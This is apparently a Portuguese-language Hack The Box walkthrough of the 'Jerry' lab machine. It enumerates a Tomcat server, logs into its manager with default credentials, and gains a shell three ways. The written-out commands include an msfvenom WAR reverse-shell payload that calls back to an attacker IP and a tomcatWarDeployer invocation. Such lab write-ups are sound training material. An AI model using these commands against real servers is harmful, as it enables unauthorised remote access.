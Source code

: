 ```yaml
---
title: "Hack The Box - Jerry"
tags: [Windows,Easy,Tomcat,Wfuzz,Msfvenom,Metasploit Framework]
categories: HackTheBox
---
```


![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jerry/Jerry_inicial.png)

Link: <https://www.hackthebox.eu/home/machines/profile/144>

# Enumeração

## Primeiro passo é rodar o nmap contra a máquina, para verificar quais portas estão abertas e quais serviços estão sendo disponibilizados pelas portas.

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jerry/Jerry_nmap.png)

### Explicação de cada parâmetro do Nmap

> -sC --> Rodar alguns scripts padrão em cada porta

> -sV --> Levantar qual serviço está rodando na porta

> -Pn --> Já considera o host ativo

### Verificamos que temos apenas a porta 8080 aberta no servidor

> Possivelmente portas relacionadas a um servidor Web

## Enumeração servidor na porta 8080

Ao abrir o navegador com na porta 8080 verificamos um servidor Web Tomcat

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jerry/Jerry_web.png)

## Enumeração de diretórios com o Wfuzz

Realizaremos a enumeração/descoberta de diretórios e arquivos com o `Wfuzz`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jerry/Jerry_wfuzz.png)

### Explicação Wfuzz:

> -c --> Exibir com cores

> -z file,/usr/share/wordlists/dirbuster/dictory-list-2.3-smalll.txt --> Indicamos que o método será dicionário e o arquivo especificado

> --hc 404,400,200 --> Não vai exibir os arquivos que deram erro 404,400,200.

### Abrimos a página Web `/manager` e verificamos um prompt para login e senha

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jerry/Jerry_manager.png)

Senha padrão da aplicação:

> tomcat:s3cret

### Logamos na aplicação

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jerry/Jerry_manager2.png)

# 1º Modo de explorar --> Criação de um Payload pelo `msfvenom` e execução

### Criação do exploit

O servidor roda arquivos com o formato `WAR`, então criaremos um.

> msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.119 LPORT=443 -f war -o exploit.war

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jerry/Jerry_msfvenom.png)

### Upload do exploit no site

Verificamos que o formato `.war` é java, o exploit mesmo dentro desse compactado é o arquivo `.jsp`, como mostrado abaixo

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jerry/Jerry_zip.png)

Esse arquivo `.jsp` que devemos executar no servidor após upar o `.war`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jerry/Jerry_upload.png)

### Executando o exploit (lembrar de abrir a porta para conexão)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jerry/Jerry_exec.png)

### Recebemos o shell

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jerry/Jerry_shell.png)

### Pegamos as flags de user e root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jerry/Jerry_flags.png)

# 2º Modo de explorar --> Script automatizado em `Python`

O Link do github com o script

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jerry/Jerry_github.png)

Realizamos o download do github para nossa máquina

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jerry/Jerry_github2.png)

Após verificar o funcionamento dele, executamos

> python tomcatWarDeployer.py -U tomcat -P s3cret -H 10.10.16.119 -p 443 10.10.10.95:8080

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jerry/Jerry_github3.png)

# 3º Modo de explorar --> Metasploit Framework

Procuramos por exploits para tomcat no Metasploit Framework

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jerry/Jerry_msf.png)

Preenchemos as opções

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jerry/Jerry_msf2.png)

Executamos e ganhamos um shell

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jerry/Jerry_msf3.png)

Interagimos com a session

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jerry/Jerry_msf4.png)